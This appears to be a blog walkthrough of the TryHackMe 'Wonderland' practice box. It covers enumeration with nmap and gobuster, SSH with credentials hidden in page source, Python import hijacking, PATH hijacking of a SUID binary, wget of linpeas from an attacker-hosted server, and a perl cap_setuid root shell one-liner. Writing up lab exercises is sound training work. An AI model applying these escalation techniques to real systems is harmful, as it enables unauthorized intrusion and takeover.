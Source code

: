 ```yaml
---
layout: post
title: "Wonderland - TryHackMe"
date: 2020-07-24
excerpt: "Walkthrough for Wonderland on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Wonderland is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to fully compromise this box.

First, let's run **threader3000** to see what ports are open.

![Wonderland threader3000](/assets/img/Wonderland1.png)

This shows that two ports are open, 22 and 80. Let's run **nmap -A -p 22,80 [machine ip]** and see what information we are able to enumerate from this scan.

![Wonderland nmap](/assets/img/Wonderland2.png)

It appears that Goland is used as the web server. Visiting the website we see a picture of a white rabbit.

![Wonderland website](/assets/img/Wonderland3.png)

However, there is nothing in the source code to see. Let's run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50** and see if we are able to locate any other directories.

![Wonderland gobuster 1](/assets/img/Wonderland4.png)

gobuster returned a couple of results to review. the **/poem** subdirectory just had the poem, The Jabberwocky on it. **/r** told you to keep on going.

![Wonderland /r](/assets/img/Wonderland5.png)

At this point, I ran **gobuster dir -u http://[machine ip]/r/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50**, and it returned a subdirectory of **/a**

![Wonderland gobuster2](/assets/img/Wonderland6.png)

At this point, I remember it stated to follow the White Rabbit, and since /r/a were the beginning of rabbit, I decided to try going to **http://[machine ip]/r/a/b/b/i/t** This leads to a page telling you to enter wonderland, but nothing is clickable on the page.

![Wonderland /r/a/b/b/i/t](/assets/img/Wonderland7.png)

I decided to take a look at the source code for the page, and it appears that there were potentially a set of hidden credentials that might be useable to SSH into the server.



![Wonderland alice credentials](/assets/img/Wonderland8.png)

Let's try to ssh into the victim with **ssh alice@[machine ip]**.

![Wonderland alice ssh](/assets/img/Wonderland9.png)

Success! We were able to connect via ssh as alice. Let's take a look around. **ls -al** shows that root.txt is in this folder, but we cannot read it. Running **python3 walrus_and_the_carpenter.py** just returns 10 random lines of text from the script.

![Wonderland alice home directory](/assets/img/Wonderland10.png)

Since root.txt is in the user folder, let's see if the user flag is in the root folder with **cat /root/user.txt**. We've found the user flag!

![Wonderland user.txt](/assets/img/Wonderland11.png)

Let's run **sudo -l** and see if alice can run something as a different user. We can see that she can run python 3.6 as another user, rabbit.

![Wonderland alice sudo -l](/assets/img/Wonderland12.png)

It appears that we can open python 3.6 as rabbit by running the walrus_and_the_carpenter.py script. Let's take a look at that script first.

![Wonderland walrus_and_the_carpenter.py](/assets/img/Wonderland13.png)

With python, if you name a file with the same name as something that is imported in the same directory, it will import that file instead of the module. Let's create a script file with **nano random.py** and put in the code below.

![Wonderland random.py](/assets/img/Wonderland14.png)

Save this file and then run **sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py**. You should now have a shell as rabbit.

![Wonderland rabbit](/assets/img/Wonderland15.png)

I attempted to run **sudo -l** as rabbit, but we do not have this user's password to see what permissions they might potentially have. I navigated to rabbit's home folder with **cd /home/rabbit** and ran **ls -al** to list the directory's contents.

![Wonderland rabbit home directory](/assets/img/Wonderland16.png)

It appears that there is a SUID file in this folder. Let's run it and see what happens.

![Wonderland teaParty](/assets/img/Wonderland17.png)

At this point you can enter whatever you would like, and the program crashes. It also appears to display some text with time an hour ahead of the current time. Since we likely do not have any tools on this machine for analyzing the binary, let's run **nano teaParty** to see if we can find anything useful in the file. We can see that the **date** binary is called without an absolute path, let's use that to our advantage.

![Wonderland nano teaParty](/assets/img/Wonderland18.png)

Let's add /tmp to rabbit's $PATH variable with **export PATH="/tmp:$PATH"**. This will put /tmp as the first folder that is looked at for binaries that do not have an absolute path defined. 

![Wonderland $PATH](/assets/img/Wonderland19.png)

Next, run **cd /tmp** followed by **nano date**. Put in the two lines of codes below which can be used to launch a bash shell. 

![Wonderland /tmp/date bash shell](/assets/img/Wonderland20.png)

Save and exit nano, and then run **cd /home/rabbit**, and run **chmod +x /tmp/date** to make the date file executable. Now, execute **./teaParty**. This should give you a shell as hatter!

![Wonderland hatter shell access](/assets/img/Wonderland21.png)

Next, let's navigate to hatter's home directory with **cd /home/hatter** and run **ls -al**. There is a **password.txt** file there. Let's run **cat password.txt**.

![Wonderland hatter password.txt](/assets/img/Wonderland22.png)

In another terminal window on your attacker pc, run **ssh hatter@[machine ip] ** and use the password you just uncovered. You should be able to connect as hatter.

![Wonderland hatter ssh](/assets/img/Wonderland23.png)

hatter is not able to run **sudo -l**, so I next decided to enumerate with linpeas. On my attacker computer, I ran **python3 -m http.server** to spin up a temporary http server.

![Wonderland python3 http server](/assets/img/Wonderland24.png)

Next, I ran **wget http://[attacker ip]:8000/linpeas.sh** to download it locally onto the victim computer. I then ran **chmod +x linpeas.sh** to make it executable followed by **./linpeas.sh**

![Wonderland linpeas](/assets/img/Wonderland25.png)

In the middle of enumeration, it shows that perl has the **cap_setuid+ep** capability. This can be used to gain a root shell. Let's take a look at [GTFOBins](https://gtfobins.github.io/) to find a way to escalate to root. It appears you can run **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** to gain a root shell. Let's give it a try.

![Wonderland root shell](/assets/img/Wonderland27.png)

Awesome, now we just need to run **cat /home/alice/root.txt** to get the root flag!

![Wonderland root.txt](/assets/img/Wonderland28.png)


